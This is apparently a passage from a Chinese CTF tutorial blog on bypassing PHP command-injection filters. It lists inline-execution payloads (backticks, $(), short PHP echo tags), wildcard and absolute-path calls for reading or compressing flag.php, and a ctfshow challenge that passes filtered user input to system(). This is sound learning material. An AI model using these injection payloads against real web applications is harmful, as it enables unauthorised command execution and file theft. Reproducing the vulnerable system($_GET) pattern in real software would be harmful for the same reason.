 ![在这里插入图片描述](https://img-blog.csdnimg.cn/2020092614430018.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0NjU3ODk5,size_16,color_FFFFFF,t_70#pic_center)

##### 0x11 内敛执行（常用）

常用payload：

```bash
echo `ls`;
echo $(ls);
?><?=`ls`;
?><?=$(ls);
1234
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201015152026146.png#pic_center)

将``或$()内命令的输出作为输入执行





##### 0x12 open_basedir绕过

单独写了一篇文章：[Bypass open_basedir](https://blog.csdn.net/qq_44657899/article/details/109171655)

##### 0x13 disable_function绕过

单独写了一篇文章：[Bypass disable_function](https://blog.csdn.net/qq_44657899/article/details/109171760)

##### 0x14 通配符+绝对路径调用命令

通配符是一种特殊语句，主要有星号(*)和问号(?)，用来模糊搜索文件。当查找文件夹时，可以使用它来代替一个或多个真正字符；当不知道真正字符或者懒得输入完整名字时，常常使用通配符代替一个或多个真正的字符。  实际上用“*Not?pad”可以对应Notepad\MyNotepad【*可以代表任何字符串；?仅代表单个字符串，但此单字必须存在】;Notep[ao]d可以对应Notepad\Notepod【ao代表a与o里二选一】，其余以此类推。

原理：
因为默认配置了环境变量使用才可以直接使用cat 等命令，但是可以使用路径调用命令如 /bin/cat，再加上通配符就能绕过很多限制。如图：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201018214540151.png#pic_center)

一些常用工具所在目录：

```
/bin/cat
```

`/bin/base64 flag.php`:base64编码flag.php的内容。

`/usr/bin/bzip2 flag.php`:将flag.php文件进行压缩，然后再将其下载。

… … 等等

例题：ctfshow-web入门55

```bash
<?php

// 你们在炫技吗？
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c);
    }
}else{
    highlight_file(__FILE__);
}
1234567891011
```
